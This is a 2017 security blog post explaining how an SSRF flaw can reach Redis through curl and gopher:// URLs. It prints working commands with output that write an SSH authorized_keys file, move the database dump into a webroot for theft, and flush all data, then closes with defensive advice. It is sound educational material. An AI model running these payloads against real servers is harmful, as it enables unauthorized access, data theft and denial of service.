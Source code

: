 ```yaml
---
layout: blog-single
title:  curl Based SSRF Exploits Against Redis
description: A look at what's possible with curl access to Redis via an SSRF vulnerability
date: August 14, 2017
image: /img/blog/ssrf-redis/curl-redis-ssrf-hacking.jpg
image_alt: "Exploiting Redis via cURL"
image_width: 2200
image_height: 1100
tags: [Security]
selected: true
position: 10
---
```


[SSRF (server side request forgery)](https://www.owasp.org/index.php/Server_Side_Request_Forgery) is a type of vulnerability where an attacker is able trick a remote server into sending unauthorized requests. SSRF opens the door to many types of undesirable things such as information disclosure, DoS and RCE. In this post, we'll take a look at the types of exploits that are achievable when we have access to curl Redis via SSRF.

<!-- excerpt_separator -->

### Getting Redis To Execute Our Commands

As documented in [a blog post titled "Trying to hack Redis via HTTP requests" by the French company, Agarri](http://www.agarri.fr/kom/archives/2014/09/11/trying_to_hack_redis_via_http_requests/index.html) if simply we curl Redis, it will interpret each line in the HTTP request as a command....

```
$ curl -v 127.0.0.1:6379 --max-time 1
* Rebuilt URL to: 127.0.0.1:6379/
*   Trying 127.0.0.1...
* TCP_NODELAY set
* Connected to 127.0.0.1 (127.0.0.1) port 6379 (#0)
> GET / HTTP/1.1
> Host: 127.0.0.1:6379
> User-Agent: curl/7.52.1
> Accept: */*
>
-ERR wrong number of arguments for 'get' command
-ERR unknown command 'Host:'
-ERR unknown command 'User-Agent:'
-ERR unknown command 'Accept:'
* Operation timed out after 1002 milliseconds with 148 bytes received
* Curl_http_done: called premature == 1
* stopped the pause stream!
* Closing connection 0
curl: (28) Operation timed out after 1002 milliseconds with 148 bytes received
```

<div class="tout tout--secondary">
<p>:bulb: <strong>TIP</strong>: Note the usage of the <code>max-time</code> flag here. It's important to understand that <a href="https://redis.io/topics/clients#client-timeouts">by default Redis won't close the connection</a> and, <a href="https://curl.haxx.se/libcurl/c/CURLOPT_TIMEOUT.html">without specifying a timeout, neither will curl</a>.</p>
</div>

[Agarri's post](http://www.agarri.fr/kom/archives/2014/09/11/trying_to_hack_redis_via_http_requests/index.html) suggests that we can use HTTP request headers or the request POST body to send malicious payloads. While this sounds good in theory, I couldn't get it to work (if you see something I've done wrong let me know!)...

```
$ curl --trace-ascii /dev/stdout -X POST -H "Content-Type: text/plain" --data "CONFIG SET maxmemory 5" http://127.0.0.1:6379/ --max-time 1
Note: Unnecessary use of -X or --request, POST is already inferred.
== Info:   Trying 127.0.0.1...
== Info: TCP_NODELAY set
== Info: Connected to 127.0.0.1 (127.0.0.1) port 6379 (#0)
=> Send header, 125 bytes (0x7d)
0000: POST / HTTP/1.1
0011: Host: 127.0.0.1:6379
0027: User-Agent: curl/7.52.1
0040: Accept: */*
004d: Content-Type: text/plain
0067: Content-Length: 22
007b:
=> Send data, 22 bytes (0x16)
0000: CONFIG SET maxmemory 5
== Info: upload completely sent off: 22 out of 22 bytes
<= Recv data, 29 bytes (0x1d)
0000: -ERR unknown command 'POST'
<= Recv data, 176 bytes (0xb0)
0000: -ERR unknown command 'Host:'
001e: -ERR unknown command 'User-Agent:'
0042: -ERR unknown command 'Accept:'
0062: -ERR unknown command 'Content-Type:'
0088: -ERR unknown command 'Content-Length:'
-ERR unknown command 'POST'
-ERR unknown command 'Host:'
-ERR unknown command 'User-Agent:'
-ERR unknown command 'Accept:'
-ERR unknown command 'Content-Type:'
-ERR unknown command 'Content-Length:'
== Info: Operation timed out after 1002 milliseconds with 205 bytes received
== Info: Curl_http_done: called premature == 1
== Info: stopped the pause stream!
== Info: Closing connection 0
curl: (28) Operation timed out after 1002 milliseconds with 205 bytes received
$ redis-cli
127.0.0.1:6379> config get maxmemory
1) "maxmemory"
2) "999999999999999"
127.0.0.1:6379>
```

Fortunately, there's another option. Using a trick I learned about in [an SSRF report to Imgur's bug bounty on hackerone](https://hackerone.com/reports/115748), we can send requests to Redis using [the Gopher protocol](https://en.wikipedia.org/wiki/Gopher_(protocol)). 

This is approach is likely more versatile than using the POST body or HTTP request headers in an SSRF scenario as it's more likely that we'll have complete control over the endpoint (including request protocol) than it is that we'll be able to force the HTTP request method, manipulate the post body, or manipulate request headers.

Here's what it would look like to get Redis to divulge its `maxmemory` configuration value.

```
$ curl gopher://127.0.0.1:6379/_CONFIG%20GET%20maxmemory --max-time 1
*2
$9
maxmemory
$15
999999999999999
curl: (28) Operation timed out after 1002 milliseconds with 41 bytes received
```

### What Can We Do With It?

The ability to send commands to Redis opens the door to many nasty exploits. Here are a few...

#### Manipulation of the configuration values to upload a public key

This technique was outlined in [a blog post titled "A few things about Redis security" by Redis' creator Salvatore Sanfilippo (aka antirez)](http://antirez.com/news/96). If we know the the name of a user on the server, we could set the Redis' `dir` to that user's `.ssh/` directory and set the `dbfilename` to `authorized_keys`. We can use `%0D%0A` to issue multiple commands in a single request...

```
$ curl -v gopher://127.0.0.1:6379/_CONFIG%20SET%20dir%20/home/mpchadwick/.ssh%0D%0ACONFIG%20SET%20dbfilename%20authorized_keys --max-time 1
*   Trying 127.0.0.1...
* TCP_NODELAY set
* Connected to 127.0.0.1 (127.0.0.1) port 6379 (#0)
+OK
+OK
* Operation timed out after 1002 milliseconds with 5 bytes received
* Closing connection 0
curl: (28) Operation timed out after 1002 milliseconds with 5 bytes received
```

Next we would use the `SET` command to get Redis to save our public key to its memory, and then finally issue a `SAVE` command to write the public key to the `authorized_keys` file.

This is pretty much game over as the attacker can now SSH directly to the server!

#### Manipulation of the `dir` configuration value to steal the database

With the ability to manipulate the `dir` value, another option would be to update the `dir` to a publicly accessible location (the webroot). For example the attacker could try `/var/www/html`,  the default webroot for Apache on most servers.

```
$ curl gopher://127.0.0.1:6379/_CONFIG%20SET%20dir%20/var/www/html --max-time 1   
*   Trying 127.0.0.1...
* TCP_NODELAY set
* Connected to 127.0.0.1 (127.0.0.1) port 6379 (#0)
+OK
* Operation timed out after 1002 milliseconds with 5 bytes received
* Closing connection 0
curl: (28) Operation timed out after 1002 milliseconds with 5 bytes received
```

The attacker could then trigger another `SAVE` to place `dump.rdb` into the webroot and download the entire database. 

It's very likely that this will give them access to sensitive information such as customer PII (personally identifiable information), database connection credentials or credentials for external API services.

#### DoS

There are countless DoS opportunities with the ability to send arbitrary commands to the Redis instance. The first thing that springs to mind is the repeatedly send `FLUSHALL` commands, preventing Redis from ever effectively storing anything.

```
$ curl -v gopher://127.0.0.1:6379/_FLUSHALL --max-time 1
*   Trying 127.0.0.1...
* TCP_NODELAY set
* Connected to 127.0.0.1 (127.0.0.1) port 6379 (#0)
+OK
* Operation timed out after 1002 milliseconds with 5 bytes received
* Closing connection 0
curl: (28) Operation timed out after 1002 milliseconds with 5 bytes received
```

### Takeaways

As we can see, SSRF can quickly become fatal if the attacker is able to send requests to the Redis instance. In addition to being mindful of potential SSRF exploits within the application codebase during the code review process, it is not advisable to solely rely on network layer security to protect your Redis instance. [Redis' built in AUTH feature](https://redis.io/commands/auth) allows you require a password to speak to Redis which adds an additional layer of protection against potential attackers.
